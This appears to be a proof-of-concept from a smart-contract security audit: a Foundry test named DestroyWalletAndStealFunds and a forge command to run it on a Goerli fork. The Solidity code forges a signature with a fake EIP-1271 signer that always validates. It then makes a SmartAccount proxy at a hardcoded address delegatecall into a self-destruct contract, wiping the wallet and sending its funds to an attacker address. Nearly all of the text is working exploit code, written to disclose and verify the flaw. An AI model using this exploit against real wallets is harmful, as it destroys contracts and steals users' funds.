 ```
contract DestroyWalletAndStealFunds is Test {
    SmartAccount proxySmartAccount = SmartAccount(0x11dc228AB5BA253Acb58245E10ff129a6f281b09);
    address hacker = vm.addr(0x1337);
    SelfDestructingContract sdc;
    FakeSigner fs;
    function setUp() public {
        // Create self destruct contract
        sdc = new SelfDestructingContract();
        // Create fake signer
        fs = new FakeSigner();

        // Impersonate hacker
        vm.startPrank(hacker);
        // Create the calldata to call the selfDestruct function of SelfDestructingContract and send funds to hacker 
        bytes memory data = abi.encodeWithSelector(sdc.selfDestruct.selector, hacker);
        // Create transaction specifing SelfDestructingContract as target and as a delegate call
        Transaction memory transaction = Transaction(address(sdc), 0, data, Enum.Operation.DelegateCall, 1000000);
        // Create FeeRefund
        FeeRefund memory fr = FeeRefund(100, 100, 100, hacker, payable(hacker));

        bytes32 fakeSignerPadded = bytes32(uint256(uint160(address(fs))));
        // Add fake signature (r,s,v) to pass all requirments.
        // v=0 to indicate eip-1271 signer "fakeSignerPadded" which will always return true
        bytes memory signatures = abi.encodePacked(fakeSignerPadded, bytes32(uint256(65)),uint8(0), bytes32(0x0));
        // Call execTransaction with eip-1271 signer to delegatecall to selfdestruct of the proxy contract.
        proxySmartAccount.execTransaction(transaction, 0, fr, signatures);
        vm.stopPrank();
    }

    function testProxyDoesNotExist() public {
        uint size;
        // Validate that bytecode size of the proxy contract is 0 becuase of self destruct 
        address proxy = address(proxySmartAccount);
        assembly {
          size := extcodesize(proxy)
        }
        assertEq(size,0);
    }

    function testRevertWhenCallingWalletThroughProxy() public {
        // Revert when trying to call a function in the proxy 
        proxySmartAccount.getNonce(0);
    }
}
```

To run the POC and validate that the proxy does not exist after destruction:
```
forge test -m testProxyDoesNotExist -v --fork-url="<GOERLI FORK RPC>"
```
